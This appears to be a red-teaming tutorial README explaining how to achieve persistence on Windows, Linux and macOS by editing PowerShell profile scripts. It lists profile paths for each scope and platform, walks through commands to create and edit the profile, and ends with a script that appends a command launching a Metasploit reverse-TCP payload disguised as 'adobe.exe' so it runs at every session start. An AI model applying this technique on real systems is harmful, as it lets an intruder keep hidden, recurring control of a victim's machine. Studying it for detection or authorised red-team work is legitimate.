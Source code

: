 Greetings, fellow learners! Today, we're going to explore a captivating subject: How to achieving Prolonged Persistence using PowerShell Profile Scripts. I've got one of my interesting topic for you today, "Prolonged Adversarial Persistence." So, if you're ready, let's dive right in.

To provide some clarity, we can refer to it as "Event-Triggered Execution," an event that is invoked each time a command is executed. Groups like Turla, also known as Snake, employed PowerShell scripts for direct, in-memory loading and execution of malicious executables and libraries. This approach enabled them to bypass detection mechanisms that typically trigger when a malicious executable is saved to disk.

PowerShell offers the flexibility to create various profiles tailored to individual users and host programs. Creating a PowerShell profile is a common practice among those who work extensively with PowerShell. It enables users to customize their environment, including configurations, functions, modules, and more, and to execute specific commands when a PowerShell session starts. Users also leverage profiles for automatically mapping network drives or shared resources.

Breaking down the term "Profile," it's essentially an automatic variable, namely `$PROFILE`, used to store the paths to the PowerShell profiles available in the current session. Remember that the script within these profiles is executed each time a user logs on. As mentioned earlier, different profiles exist for different users and hosts. Consequently, there are distinct paths for various profile types:

## Profile Paths for Different Profile Types:
```
    All Users, All Hosts
        Windows - $PSHOME\Profile.ps1
        Linux - /opt/Microsoft/powershell/7/profile.ps1
        macOS - /usr/local/Microsoft/powershell/7/profile.ps1
    All Users, Current Host
        Windows - $PSHOME\Microsoft.PowerShell_profile.ps1
        Linux - /opt/Microsoft/powershell/7/Microsoft.PowerShell_profile.ps1
        macOS - /usr/local/microsoft/powershell/7/Microsoft.PowerShell_profile.ps1
    Current User, All Hosts
        Windows - $HOME\Documents\PowerShell\Profile.ps1
        Linux - ~/.config/PowerShell/profile.ps1
        macOS - ~/.config/PowerShell/profile.ps1
    Current user, Current Host
        Windows - $HOME\Documents\PowerShell\Microsoft.PowerShell_profile.ps1
        Linux - ~/.config/PowerShell/Microsoft.PowerShell_profile.ps1
        macOS - ~/.config/PowerShell/Microsoft.PowerShell_profile.ps1
```

Now, let's delve into the steps required to implement this technique:

1. Check the current Profile Path:
   ```
   Test-Path $PROFILE
   ```
   ![image](https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/b0b1930e-cd38-4b4f-a3e5-c0c2e0cce6b4)

3. View the Profile path:
   ```
   echo $PROFILE
   ```
   ![image](https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/ec6f961c-829a-4df7-a3e9-998d86f90996)

4. Verify if a profile already exists:
   ```
   Test-Path -Path $PROFILE
   ```
   ![image](https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/3c5c6102-d83b-4a2a-b2a5-afc8b3562d2a)
   > This command should return either True or False as a response.

If the profile doesn't exist, don't worry. Here's how you can create a new profile for the current user:
```
New-Item -ItemType File -Path $PROFILE -Force
```

4. Modify profile.ps1:
   > Edit it with your preferred text editor, and your payload will execute on every login.
   
   ``` notepad $PROFILE```
> You can even utilize this technique with Metasploit. For instance, here's an example of requesting PowerShell to execute a malicious .exe payload generated using Metasploit for reverse TCP:

```
if (!(Test-Path -Path $PROFILE)) {
  New-Item -ItemType File -Path $PROFILE -Force
}
$string = 'Start-Process "E:\Documents\Desktop\adobe.exe"'
$string | Out-File -FilePath "C:\Users\User\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

Now, you have the tools and knowledge to achieve prolonged adversarial persistence with PowerShell Profile Scripts. 
![image](https://github.com/TechnologyMediaorg/red-teaming-specials/assets/111997815/fb4daf6b-0461-4793-9ce7-c7ba256608f7)

Enjoy exploring this powerful technique!
